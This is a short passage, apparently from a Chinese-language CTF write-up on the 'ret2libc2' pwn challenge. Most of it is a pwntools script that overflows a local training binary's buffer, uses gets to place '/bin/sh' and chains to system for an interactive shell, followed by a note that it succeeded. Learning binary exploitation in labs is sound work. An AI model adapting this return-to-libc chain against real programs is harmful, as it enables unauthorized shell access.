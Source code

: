 由此可以开始构造payload

```python
from pwn import *

offset = 112

system_addr = 0x08048490
gets_addr = 0x08048460
buf2_addr = 0x0804a080
pop_addr = 0x00804872f


proc = process("./pwn/ret2libc2/ret2libc2")

proc.sendline(b'A'*offset \
        + p32(gets_addr) + p32(pop_addr)  + p32(buf2_addr) \
        + p32(system_addr) + b'AAAA' + p32(buf2_addr))
proc.sendline('/bin/sh')
proc.interactive()
```
运行一下

![Alt text](image/ret2libc2_res.png)

成功